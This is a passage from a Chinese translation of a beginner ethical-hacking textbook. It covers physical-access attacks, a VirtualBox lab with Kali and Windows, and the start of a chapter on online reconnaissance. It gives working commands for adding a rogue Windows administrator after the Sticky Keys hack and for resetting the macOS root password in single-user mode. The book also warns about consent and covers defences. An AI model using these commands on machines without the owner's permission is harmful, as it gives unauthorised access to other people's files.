    C:\Windows\System32\> net user ironman Jarvis /add
    C:\Windows\System32\> net localgroup administrators ironman /add
    ```

    第一个命令向 Windows 计算机添加名为 *ironman* 的用户帐户，密码为 *Jarvis*。第二个命令将 *ironman* 用户添加到本地管理员列表。这意味着当我们以 *ironman* 身份登录时，我们将拥有对计算机上所有文件的管理员级访问权限。

6. 当你看到类似 Figure 2-4 中的成功消息时，关闭命令提示符。

    

    Figure 2-4: We’ve successfully added a user named *ironman* as an administrator on this computer.

除了创建新用户帐户外，你还可以从命令提示符窗口重置现有用户的密码，方法是输入 `net user`，后跟现有用户名和要设置的新密码，例如 `net user bryson Thisisyournewpassword!`。但是，未经当事人和计算机所有者的许可，绝不应重置他人的密码。

### 现在你是管理员了，请登录！

恭喜！你现在可以以管理员身份访问该机器。请继续登录。输入 `.\ironman` 作为用户名（或从帐户列表中选择 **ironman**，如 Figure 2-5 所示）。`ironman` 前面的点和反斜杠告诉 Windows 该帐户是本地计算机上的，而不是存储在网络服务器上。输入用户名后，输入密码 `Jarvis`。

 

Figure 2-5: You can now use the *ironman* user to log in to this Windows PC.

由于我们将 *ironman* 用户设为本地管理员组的成员，你应该拥有对 *所有* 文件和文件夹的管理员级访问权限，包括 *C:\Users\\* 中的所有用户和文档，如 Figure 2-6 所示。



Figure 2-6: As an administrator-level user, you can see *all* users’ files, not just your own.

当你第一次点击进入另一个用户的文件夹时，你会看到一个弹出消息，提示你需要权限才能打开另一个用户的文件，如 Figure 2-7 所示。由于你是管理员，请点击 **Continue** 以授予自己永久访问权限！



Figure 2-7: Administrators can give themselves permission to access anyone’s files on the same computer.

Sticky Keys 黑客攻击仅适用于 Windows 机器。但是，运行 macOS 的计算机也容易受到物理访问攻击。

# Mac Root Hack

与 Sticky Keys 黑客攻击类似，Mac root hack 是一种物理访问攻击，将使你获得计算机的管理员级访问权限。它使你成为 *root* 用户，即 macOS 计算机上的管理员级帐户。对于此黑客攻击，你只需要一台 Mac 计算机。我们将在 *single-user mode*（一种故障排除和修复登录模式）下重启 Mac。从那里，我们可以更改 root 用户的密码，从而获得对计算机上所有文件的访问权限。

### 更新 Root 用户设置

1. 首先，Mac 需要完全关闭，而不仅仅是睡眠。如果它尚未关闭，请按住电源按钮约六秒钟。


2. 在按住 `COMMAND-S` (⌘-S) 的同时再次按下电源按钮，以进入单用户模式。你应该会看到一个功能非常有限的文本命令行终端窗口，如 图 2-8 所示。



图 2-8：Mac 单用户模式启动屏幕的一部分

终端提示符应包含 `root#`（如果在最后一行不可见，请多次按回车键，它应该会出现），这表明我们已以 root 或管理员用户身份登录到命令行。

3. 输入以下命令以挂载或连接到硬盘：

```
localhost:/ root# /sbin/fsck -fy
localhost:/ root# /sbin/mount -uw /
```

4. 现在连接到 Open Directory 服务的属性列表，或 `plist`：

```
localhost:/ root# launchctl load /System/Library/LaunchDaemons/com.apple.opendirectoryd.plist
```

你的 Mac 使用 Open Directory 来跟踪用户、组、文件共享，甚至 Wi-Fi 打印机。可以将其视为 Mac 上所有用户帐户和权限的目录。

5. 如果运行上述命令后出现错误，请尝试运行以下命令——它与步骤 4 相同，但适用于旧版 Mac：

```
localhost:/ root# launchctl load /System/Library/LaunchDaemons/com.apple.DirectoryServices.plist
```

6. 现在更改 root 用户的密码。输入此命令：

```
localhost:/ root# passwd
```

7. 输入新密码。输入时屏幕上不会显示密码字符。然后再次输入密码以确认更改。（如果输入错误的密码，请再次以单用户模式启动并执行相同的操作——这应该每次都会重置 root 用户的密码。）

#### 你现在是 root 用户了！

做得好！既然你已将 root 用户的密码改为你知道的密码，你就可以随时以 root 用户身份登录。现在就试一下：在命令行中输入 `reboot` 重启计算机，或按电源按钮关闭计算机再重新开启。当计算机正常启动到 Mac 登录屏幕时，输入 `root` 作为用户名，并输入你刚刚设置的新密码，如 图 2-9 所示。



图 2-9：Mac root 攻击后，你可以使用在攻击中设置的密码以 root 用户身份登录。

点击跳过看到的任何设置屏幕，你很快就会来到 Mac 桌面。你应该在屏幕顶部的菜单栏中看到自己已以系统管理员身份登录。你现在可以访问 Mac 上所有用户的文件和文件夹！

### 其他物理攻击

除了黏滑键攻击和 Mac root 攻击之外，还有许多物理访问攻击。事实上，几乎任何可启动光盘——例如 Ultimate Boot CD、KNOPPIX、SystemRescueCd 或 Trinity Rescue Kit——都可以让你访问你有物理访问权限的计算机硬盘上的文件。还有专门制作的黑客工具，例如 Rubber Ducky 和 Bash Bunny，价格低于 100 美元，看起来像普通的 USB 驱动器，但包含用于入侵计算机的自动化工具。一些物理访问攻击甚至使用语音命令。例如，Open Sesame! 攻击使用 Microsoft 的 Cortana 语音助手，通过指示 Cortana 打开 USB 驱动器或网站上的恶意文件来绕过登录屏幕。

### 防御物理攻击

正如你所见，物理访问攻击可以帮助你恢复旧照片、复制文件，并在几乎任何你可以物理接触的计算机上更改用户，即使没有原始密码。然而，这意味着任何拥有物理访问权限并了解这些攻击的人也可以访问 `你的` 私人文件和信息！这就是为什么随身携带设备或将其锁在安全区域非常重要。

如果有人设法访问你的计算机，有几种方法可以保护你的数据。一种是设置 `firmware password`，也称为 `BIOS password` 或 `EFI password`。Mac 和大多数 PC 上的此选项可以防止攻击者篡改计算机的 BIOS/UEFI 设置，从而中和黏滑键攻击和 Mac root 攻击等攻击。不幸的是，firmware password 只是一层防御，通常可以被绕过。例如，有动机的攻击者可以从计算机的电路板上取下电池，从而擦除大多数 PC 上存储的 firmware password。

更可靠的方法是 `encrypt` 你的文件，将其打乱成只能用密码 `unencrypted`（解密）的不可读形式。加密密码与计算机的登录密码不同，因此攻击者无法通过使用黏滑键或 Mac root 攻击更改用户密码来查看加密文件中的内容。我们将在第 11 章中更详细地讨论加密。

## 要点

在本章中，你学习了如何使用 Windows 黏滑键攻击和 Mac root 攻击来获取计算机上所有文件和用户帐户的管理员级访问权限，即使你不知道用户名和密码。你还了解到还有其他物理攻击和一些专门工具，例如 Rubber Ducky 和 Bash Bunny，它们使物理攻击更加容易。虽然你可以使用这些攻击来恢复丢失的文件或重置遗忘的密码，但你也发现，拥有计算机物理访问权限的攻击者通常可以访问你的所有信息。你可以通过限制谁可以访问你的计算机、设置 firmware password 和加密文件来防御这些攻击。

现在你了解了物理安全的重要性，是时候开始考虑其他可能使你的计算机处于危险之中的攻击了——恶意网站、网络钓鱼和受感染的电子邮件附件，甚至是你日常生活中联网智能设备上的攻击。为了能够安全地练习这些其他类型的攻击，并学习如何防御它们，你将在第 3 章中设置自己的私有虚拟黑客实验室。

# 3

构建你自己的虚拟黑客实验室


为了安全且合乎道德地学习黑客技术，你将使用 `virtual machines (VMs)`，这些程序在你的物理桌面或笔记本电脑中模拟独立的计算机。你可以隔离 VM，这样你在其中的任何操作都不会影响你的计算机或网络。例如，如果你在 VM 中打开带有病毒的文件，病毒只会感染虚拟机，而不会感染你的真实计算机。

`Virtualization software` 允许你在桌面或笔记本电脑（`host`）上运行虚拟机（称为 `guest`）。在本章中，我们将安装 VirtualBox，一个免费的虚拟化程序，以及 VirtualBox Extension Pack。然后我们将创建两个 VM。第一个将是运行 Kali Linux 操作系统的 `attacking` VM。你将使用此 VM 发起攻击。另一个虚拟机将是运行 Windows 的 `target` VM。你将把攻击指向这台机器。设置好这两个 VM 后，你就可以安全地尝试黑客工具，而不会影响你的计算机或任何其他人的计算机。

## 设置 VirtualBox

按照以下说明下载并设置 VirtualBox。

1. 访问 VirtualBox 主页 [`www.virtualbox.org/`](https://www.virtualbox.org/) 并点击 `Download VirtualBox` 按钮。

2. VirtualBox 下载页面列出了 Windows、macOS 和多个 Linux 主机操作系统的选项。点击与你的计算机匹配的选项以下载最新版本的 VirtualBox。

3. 打开下载的文件并按照屏幕上的说明安装 VirtualBox。（Windows 用户应选择以管理员身份运行文件；你必须拥有管理员权限才能运行 VirtualBox。）


除了 VirtualBox 本身，你还需要安装 VirtualBox 扩展包，它添加了所需的功能，例如支持将较新的 USB 设备连接到你的虚拟机。现在就去安装它。

1. 返回 VirtualBox 下载页面（`https://www.virtualbox.org/wiki/Downloads`），找到 VirtualBox 扩展包部分，并点击 `All supported platforms` 下载扩展包。

2. 打开 VirtualBox。（在 Windows 上，请务必右键单击 VirtualBox 图标并选择 `Run as administrator`。）

3. 从你的 `Downloads` 文件夹打开扩展包。

4. 一旦 VirtualBox 扩展包安装窗口打开，点击 `Install`。

## 创建 Kali Linux 虚拟机

现在你有了 VirtualBox，将创建你的 Kali Linux 虚拟机。Kali 是全球道德黑客使用的 Linux 操作系统的一个版本。它包含超过 600 个安全和黑客工具，因此它是你攻击虚拟机的完美操作系统。

1. 访问 `https://www.kali.org/downloads/`，向下滚动到虚拟机部分，并点击链接前往 VM 下载页面。

2. 点击 `Kali Linux VirtualBox Images` 选项卡以查看与 VirtualBox 兼容的下载选项。请务必查找 VirtualBox 镜像——还有针对 VMware（一种与 VirtualBox 不兼容的不同软件包）制作的镜像。

3. 点击 `Kali Linux VirtualBox 64-Bit` 下载 VM。该文件大约 4GB，请在网络连接快速的地方下载。

4. 启动 VirtualBox 并选择 `File`▶`Import Appliance`。

5. 点击右侧的文件夹图标并找到你的 Kali Linux 文件。选择文件，点击 `Open`，然后点击 `Next`（在 PC 上）或 `Continue`（在 Mac 上）。

6. 你现在应该看到要导入的 Kali Linux VM 的设置列表。点击 `Import` 继续。

7. 当 VM 导入完成后，你会在 Oracle VM VirtualBox Manager 左侧看到它，如 图 3-1 所示。



图 3-1：Kali Linux VM 出现在 VirtualBox Manager 左侧的列表中。

当你添加其他 VM 时，它们会与 Kali 一起出现在列表中。现在，让我们测试新的 Kali VM 以确保它在你的系统上运行。

## 运行 Kali VM

双击 VirtualBox Manager 面板中的 Kali Linux VM 条目以启动 Kali Linux 虚拟机。第一次在 VirtualBox 中运行 VM 时，由于你的 Mac 或 PC 上的不同设置，可能会遇到错误。如果在运行 VirtualBox 或启动 Kali VM 时遇到任何问题，请参见附录 B。

当 VM 完成启动后，你会来到登录屏幕。使用用户名 `kali` 和密码 `kali` 登录。登录后，你会看到带有标志性 Kali 龙徽标的屏幕，如 图 3-2 所示。欢迎使用 Kali Linux！

在计算机中使用计算机需要一些时间来适应。一旦你单击 VM 窗口内部，你的键盘和鼠标就会被“捕获”以在 VM 中使用。要将鼠标和键盘返回到你的物理（主机）计算机，请单击 VM 窗口外部或按键盘上的 `host key`。这应该是 PC/Linux 机器上的 `right` CTRL 键，或 Mac 上的 `left` COMMAND 键。如果你需要提醒，主机键也应该在 VM 窗口右下角标识。



图 3-2：你的 Kali Linux VM 已准备就绪！

如果你发现 VM 屏幕和图标太小，请转到 `View`▶`Virtual Screen 1` 并尝试更改缩放或分辨率。此外，如果你让 VM 闲置一段时间，VM 窗口可能会变空白。如果发生这种情况，请单击 Kali 窗口并按空格键唤醒机器。

花些时间探索 Kali Linux。在本章后面设置网络之前，你无法连接到互联网，但你仍然可以四处看看。单击屏幕顶部的 `Applications` 菜单（带有龙徽标的按钮）以查看 Kali 的数百个程序和工具中的一些。它们现在可能看起来令人生畏，但本书将教你使用其中的几个，帮助你更有信心地探索其他工具。

看了一段时间后，关闭 Kali Linux VM 窗口。你应该会看到关闭虚拟机弹出窗口。选择 `Save the machine state` 并点击 `OK`。保存机器状态让你下次打开 VM 时可以从上次离开的地方继续，就像让计算机进入睡眠状态而不是完全关机一样。但是，如果你在安装软件或更改设置后需要重新启动 VM，则需要选择 `Power off the machine`。

恭喜！你已设置好第一个虚拟机！如果这是你第一次使用 Linux，给自己一个高五！有了这个 Kali VM，你将能够针对其他目标虚拟机测试数十个（甚至数百个）黑客攻击，以了解在线攻击是如何发生的以及如何防御它们。我们将在下一节设置其中一个目标 VM。

## 创建 Windows VM

你现在将创建一个运行 Windows 的第二个 VM。作为世界上最常见的桌面和笔记本电脑操作系统，Windows 是道德和不道德黑客的头号目标，因此它是学习攻击和防御的重要操作系统。我们将从 Microsoft Edge 开发者网站下载一个功能齐全的 Windows 10 VM。

1. 访问 `https://developer.microsoft.com/en-us/microsoft-edge/tools/vms/`（或搜索 Microsoft Edge 开发者虚拟机网站）。

2. 选择一个 Windows 10 虚拟机，选择 VirtualBox 作为你的平台，并下载 VM。该文件超过 6GB，请在网络连接快速的地方下载此 VM。

3. 解压下载的文件。

4. 打开 VirtualBox 并选择 `File`▶`Import Appliance`。

5. 点击右侧的文件图标并找到你的 Windows 10 VM。它将是 `*.ova` 文件或 `*.ovf` 文件。选择文件，然后点击 `Continue`。

6. 你现在应该看到 Windows 10 VM 的设置列表。点击 `Import` 继续。

7. 导入完成后，Windows VM 将与你的 Kali VM 一起出现在 VirtualBox Manager 列表中，如 图 3-3 所示。



图 3-3：导入 Windows VM 后，你的虚拟道德黑客实验室中将有两个 VM！

现在让我们打开 Windows 10 VM 以确保它正常工作。双击 VirtualBox Manager 列表中的 Windows 10 VM。VM 加载后，单击窗口内部以显示 Windows 登录提示。使用默认用户名 `IEUser` 和默认密码 `Passw0rd!`（用零代替字母 `o`）登录。如果密码不起作用，请查看 Microsoft VM 下载页面。默认密码应列在下载按钮下方。

一旦虚拟桌面加载，四处点击并探索一下。它就像一台普通的 Windows 计算机。你暂时无法上网，但我们将在下一节设置虚拟网络。探索完 Windows VM 后，关闭 VM 并选择 `Power off the machine`。你需要完全关闭 VM 才能更改网络设置。

你现在在道德黑客实验室中有两个虚拟机，一个 Kali Linux VM 和一个 Windows 10 VM。我们将在未来章节中根据需要添加更多 VM。一旦我们将这两个 VM 连接在一起，你就可以在不危及笔记本电脑或台式机的情况下练习黑客攻击和防御。


## 将您的 VM 连接到虚拟网络

默认情况下，新 VM 连接到 `host-only network`，这意味着您只能从主机计算机访问它们。要将您的 VM 相互连接并连接到互联网，我们将创建一个 `virtual network`。将您的 Windows 和 Kali 机器连接到虚拟网络，就像将它们连接到同一个 Wi-Fi 网络一样。

1. 在 VirtualBox 中，转到 `File`▶`Preferences`（或 Mac 上的 `VirtualBox`▶`Preferences`）。

2. 转到 `Network` 选项卡，然后单击绿色的 Add 图标（带有加号的那个）以创建新的虚拟网络。

3. 一个新网络（名称类似于 `NatNetwork`）应该出现在列表中。确保网络名称旁边 Active 列下的复选框已被选中。

4. 选择该网络，然后单击 Settings 图标（带有黄色齿轮的那个）。

5. 在 Network Name 框中输入 `PublicNAT`，并通过输入 `10.0.9.0/24` 更改 Network CIDR 文本框，以设置 VM 的 IP 地址。

6. 保持 Supports DHCP 复选框被选中，并单击两次 `OK` 以完成网络的创建。

我们的下一个任务是将您的 VM 连接到您创建的 PublicNAT 网络。

### 连接您的 Kali VM

我们将首先将您的 Kali VM 连接到网络并测试连接。

1. 在 Oracle VM VirtualBox Manager 中，单击您的 Kali VM，然后单击 `Settings`。

2. 选择 `Network` 选项卡，并从 Attached to: 下拉列表中选择 `NAT Network`。在 Name: 下拉列表中，选择 `PublicNAT`。然后单击 `OK` 以保存更改。

3. 启动 Kali VM，并像之前一样使用用户名 `kali` 和密码 `kali` 登录。

4. 一旦 Kali VM 桌面出现，单击屏幕左上角面板中的黑色方块图标打开命令行 Terminal 程序，如 Figure 3-4 中圈出的所示。

5. 键入命令 `ip addr` 并按 `ENTER` 以查看 VM 网络连接的信息。

    

    Figure 3-4: Checking the Kali VM’s IP address

6. 您应该在 `eth0:` 部分下看到以 `10.0.9` 开头的 IP 地址，如 Figure 3-4 中圈出的那个。

当 Kali 显示以 10.0.9 开头的 IP 地址时，它已连接到 PublicNAT 网络。如果您看不到类似 10.0.9.*x* 的地址，请转到 `Machine`▶`Reset` 以重新启动 Kali VM。当 VM 重新启动后，在终端中再次运行 `ip addr` 命令。如果您仍然看不到 10.0.9.*x* IP 地址，请返回并检查 VirtualBox Manager 中的 Kali VM 网络设置。

### 连接您的 Windows VM

将您的 Windows VM 连接到 PublicNAT 网络的工作几乎与连接 Kali VM 完全相同。

1. 转到 VirtualBox Manager，选择您的 Windows VM，然后单击 `Settings`。

2. 单击 `Network` 选项卡，从 Attached to: 下拉列表中选择 `NAT Network`，并从 Name: 下拉列表中选择 `PublicNAT`。单击 `OK` 应用这些设置。

3. 启动您的 Windows VM，并像之前一样使用默认密码 (`Passw0rd!`) 登录。

4. 当 VM 加载后，单击 Windows 搜索栏（位于 Figure 3-5 的左下角），键入 `CMD`，并按 `ENTER` 打开 Windows 命令提示符，它类似于 Kali Linux Terminal 程序。

5. 输入命令 `ipconfig` 以检查 VM 的网络设置。

6. 您应该看到 10.0.9.*x* 范围内的 IP 地址，如 Figure 3-5 中的 `10.0.9.5` 地址。

    如果您的地址以 10.0.9 开头，您已成功将 Windows VM 连接到 PublicNAT 网络。如果不是，请转到 `Machine`▶`Reset` 以重新启动 Windows VM。再次尝试 `ipconfig` 命令。如果您仍然看不到 10.0.9.*x* IP 地址，请返回并检查 VirtualBox Manager 中的 VM 网络设置。

    

    Figure 3-5: Checking your Windows VM’s network settings

7. 最后，尝试测试您网络的互联网连接。在您的 Windows VM 中，打开 Microsoft Edge 网络浏览器并访问任何网址，例如 [`www.nostarch.com/go-hck-yourself/`](https://www.nostarch.com/go-hck-yourself/)。

如果您无法访问任何网站，请再次执行前面的步骤，并尝试关闭并重新启动 Windows VM。

## 更新您的 VM 操作系统

现在您的虚拟机已连接到互联网，我们可以更新它们的操作系统，以确保它们可以访问最新功能。经常更新计算机的操作系统始终是个好主意，可以通过启用自动更新或至少每月检查一次更新来实现。更新操作系统可以保护您免受病毒、黑客和其他在线威胁。这是您可以做的最重要的事情之一，以抵御最新的网络攻击。

### 更新 Kali Linux

按照以下说明更新 Kali Linux：

1. 启动 Kali VM 并再次打开终端命令行应用程序。

2. 在终端提示符下，输入以下命令以查找需要更新的软件：

    ```
    kali@kali:~$ sudo apt update
    ```

3. 第一次使用 `sudo` 时，Kali 会要求您输入密码。这个命令（“superuser do”的缩写）允许您以管理员（或 `superuser`）权限运行命令。将 `kali` 作为密码输入并按 `ENTER`。

4. 现在使用此命令执行更新：

    ```
    kali@kali:~$ sudo apt upgrade
    ```

5. 您可能需要按 `Y` 来确认某些更新。随着各种软件包的更新，它们将在终端窗口中列出，后跟消息 `Done`。

6. 当 `apt` 完成 Kali 的更新后，关闭机器并保存机器状态。

### 更新 Windows

接下来，我们将更新您的 Windows VM。

1. 启动 Windows VM，在 Windows 搜索栏中键入 `updates`，并从选项列表中选择 `Check for updates`。

2. 如果 Windows 有可用更新，您应该会看到 Install now 或 Restart now 按钮。单击按钮安装更新。您可能需要重新启动 VM，就像您有时需要为真实计算机的更新重新启动一样。

3. 在 Windows VM 完成更新后，关闭它并保存机器状态。

## 要点

在本章中，您设置了 VirtualBox 虚拟化软件并创建了两台虚拟机，这些软件充当您实际计算机内的计算机。其中一台 VM 运行 Kali Linux，将充当您的攻击计算机，而另一台运行 Windows，将充当您的目标计算机。您还创建了一个名为 PublicNAT 的虚拟网络，以将两台 VM 连接到互联网并相互连接。然后，您对 Kali 和 Windows VM 应用了更新。

您现在已经设置了一个功能齐全的虚拟黑客实验室。做得好！有了您的两台 VM 和虚拟网络，您就可以安全且合乎道德地尝试不同的黑客攻击，而不会影响您的物理计算机。在下一章中，我们将开始利用您的实验室进行一些侦察，看看仅使用搜索引擎和社交媒体就能找到什么样的信息。

# 4

在线侦察与自卫


大多数黑客攻击的第一步是 `reconnaissance`，或 `recon`。在军事行动中，侦察涉及勘察敌方领土或观察目标。在黑客世界中，攻击者在线执行侦察。他们使用常规搜索引擎（如 Google）、社交媒体平台和专业工具收集有关公司、网络和个人的信息。然后，他们使用这些信息来计划黑客攻击的下一阶段。


在本章中，你将使用 Google 查找关于自己的信息，并使用 `Google hacking` 寻找用户名和密码。然后，你将使用社交媒体进行进一步的侦察，并学习如何通过限制在线分享的信息来保护自己。你不分享的信息，攻击者就无法利用！

## 在敌人之前先搜索自己

攻击者可以利用公开信息发起 `phishing` 攻击，他们会假装成你认识的人，发送一封假电子邮件，索要密码等个人信息。许多公司网站都有员工名录或员工目录，其中包含攻击者发起钓鱼攻击（或更糟的情况）所需的所有姓名和电子邮件地址。

让我们来看看攻击者能发现关于你的哪些信息。打开网络浏览器，搜索你自己的名字。我在 Google 上搜索了自己的名字，如 图 4-1 所示。



图 4-1：在你喜欢的搜索引擎中搜索你自己的名字。

任何在互联网上的人都可以发现我做什么、我在哪里工作，以及我写过书并发布过编程和网络安全的在线课程。点击结果链接会显示更多信息，包括我 2018 年开的那种车以及我的一些电子邮件地址。同样，你可能出现在工作活动、新闻文章、体育队伍、教会或非营利组织以及社交媒体页面和帖子的照片中。你的名字或图片甚至可能出现在关于你的家人或高中/大学同学聚会的文章中——这些是你意想不到会出现在互联网上的事情。

通常只需几分钟的侦察就能发现某人在哪里工作、住在哪里、年龄多大、家庭成员是谁等信息。单独来看，这些信息中的任何一条可能都不太令人担忧，但如果可用的信息足够多，攻击者就可以构建一份关于你的完整档案，其中包含家庭成员的姓名和出生日期、宠物的名字、工作和家庭位置等。掌握这些信息后，攻击者可能能够回答你的密码安全问题，完全猜出你的某个密码，或者假装成你认识的人，以便从你那里获取更多信息。

保护个人信息比以往任何时候都更难，但一点点意识可以帮助你避免一些常见错误。掌握一些技能将帮助你找到可能已经泄露的关于你、你的公司或你的家人的信息，包括你的在线账户和密码。

## 高级 Google 搜索

简单的网络搜索是很好的侦察手段，但 Google 的真正威力——Google hacking——来自于使用高级搜索命令。通过高级搜索，你可以找到用户名、密码、安全摄像头信息流等。然而，Google hacking 技术也会增加你意外下载恶意软件的风险。为了保护自己，请务必使用以下防御措施：

